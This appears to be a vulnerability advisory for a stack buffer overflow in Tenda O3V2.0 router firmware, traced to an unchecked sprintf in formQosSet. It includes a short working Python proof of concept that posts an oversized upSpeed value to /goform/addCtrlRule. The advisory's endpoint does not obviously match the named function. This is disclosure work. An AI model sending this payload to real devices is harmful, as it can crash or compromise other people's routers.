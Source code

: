 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2832.html

## Affected version

O3V2.0 V1.0.0.10(2478)

## Vulnerability details

In the O3V2.0 V1.0.0.10(2478) firmware has a stack overflow vulnerability in the `formQosSet` function. The `v9, v10, v11, v12, v13` variable receives the `remark, ipRange, upSpeed, downSpeed, enable` parameters from a POST request. However, since the user can control the input of these parameters, the statement `sprintf(v36, "%d;%s;%s;%s;%s;%s;0;0;0;1", v2 + 1, v13, v9, v10, v11, v12);` can cause a buffer overflow. The user-provided  `remark, ipRange, upSpeed, downSpeed, enable` can exceed the capacity of the `v36` array, triggering this security vulnerability.

![image-20240714215037298](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714215037298.png)

![image-20240714215059428](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714215059428.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addCtrlRule"
payload = b"a"*2000

data = {"upSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240714213455164](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240714213455164.png)
